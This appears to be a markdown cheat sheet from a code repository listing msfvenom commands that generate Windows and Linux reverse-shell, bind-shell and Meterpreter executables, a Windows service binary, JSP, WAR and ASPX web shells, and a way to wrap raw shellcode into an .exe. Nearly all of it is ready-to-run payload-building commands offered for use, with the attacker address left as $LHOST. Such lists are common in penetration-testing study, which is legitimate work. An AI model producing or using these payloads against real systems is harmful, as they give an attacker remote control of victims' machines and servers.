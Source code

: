 # MSFVENOM
## Windows Binary (.exe) executable
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

##### Output in Hex, C Style, Exclude bad chars, Exitfunction thread
```bash
msfvenom -p windows/shell_bind_tcp LHOST=$LHOST LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

### 64 Bit (x64)

#### service
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe-service -o service.exe
```

#### Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

#### Meterpreter
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

## Linux Binary (.elf)
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=$LHOST -f elf > bind_shell.elf
```

#### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=$LHOST -f elf > rev_shell.elf
```

## Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

### As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

## Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f aspx -o rev_shell.aspx
```

## tricks
### make executable binary with input shellcode
```bash
cat payload.bin | msfvenom -p - -f exe -a x64 --platform win -o output.exe
```
